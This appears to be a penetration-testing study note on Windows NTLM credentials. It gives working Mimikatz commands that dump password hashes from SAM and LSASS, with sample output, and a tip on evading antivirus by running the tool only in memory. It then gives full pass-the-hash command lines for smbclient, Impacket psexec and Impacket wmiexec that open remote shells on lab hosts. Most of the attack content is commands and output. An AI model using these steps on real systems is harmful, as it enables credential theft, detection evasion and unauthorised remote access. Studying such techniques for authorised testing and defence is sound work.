

# NTLM

Credentials are stored when a user logs into an account & when a user runs a service. More information below.

## Security Account Manager (SAM)

Passwords hashes on Windows are stored in the Security Account Manager (SAM) database file. _**This is used to authenticate local and remote users.**_


## Local Security Authority Subystem (LSASS).


## Mimikatz

_<mark style="color:red;">**NOTE:**</mark>_ When running Mimikatz it's very important use proper obfuscation techniques since it's heavily signatures. Running it entirely in memory and never saving it on Disk is a good approach.

We can use various commands to extract passwords from the system.

For both the following commands, we must have **SeDebugPrivilege** access right enabled, which we'll accomplish with **privilege::debug**.

### sekurlsa**::logonpasswords**

**sekurlsa::logonpasswords** attempts to extract plaintext passwords and password hashes from all available sources.


### l**sadump::sam**

**lsadump::sam** extracts NTLM hashes from SAM. NOTE: we must **token::elevate** to elevate to SYSTEM user privileges. We need local administrator privileges.

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

656     {0;000003e7} 1 D 34811          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000413a0} 1 F 6146616     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 6217216     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
 
mimikatz # lsadump::sam
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
 
RID  : 000003e9 (1001)
User : offsec
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
 
RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
...
```


## Passing NTLM - p_ass-the-hash_ (PtH)&#x20;

Depending on situation, we may be able to leverage an NTLM hash without cracking it.

Suppose we are trying to access a share on \\\192.168.246.212\\. We are entering the necessary permissions to access the share.

<figure><figcaption></figcaption></figure>


Like everything else we need local Administrator on the machine to enable code execution.

### Obtaining Hashes - Mimikatz

```shell-session
# privilege::debug

# token::elevate

# lsadump::sam

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7a38310ea6f0027ee955abed1762964b
```

### SMBClient - Access Share

```shell-session
kali@kali$ smbclient \\\\192.168.236.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jun  2 16:55:37 2022
  ..                                DHS        0  Wed Oct 18 17:54:13 2023
  secrets.txt                         A       16  Thu Sep  1 12:23:32 2022

                4554239 blocks of size 4096. 1602361 blocks available
smb: \> 

```


### Impacket Psexec

We can use Impacket to get a shell. The format is "LMHash:NTHash". We'll give **32 0's for LM**.

```shell-session
kali@kali$ impacket-psexec -hashes 0000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.236.212
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.236.212.....
[*] Found writable share ADMIN$
[*] Uploading file dZntBvns.exe
[*] Opening SVCManager on 192.168.236.212.....
[*] Creating service AKvb on 192.168.236.212.....
[*] Starting service AKvb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> 

```

### Impacket Wmiexec

Like psexec we can use wmiexec to obtain a shell.

```shell-session
kali@kali:~$ impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
files02\administrator

C:\>
```

_<mark style="color:red;">**NOTE:**</mark>_ The difference between Psexec & WmiExec is that Psexec works over SMB while WmiExec uses Windows Management Instrumentation.
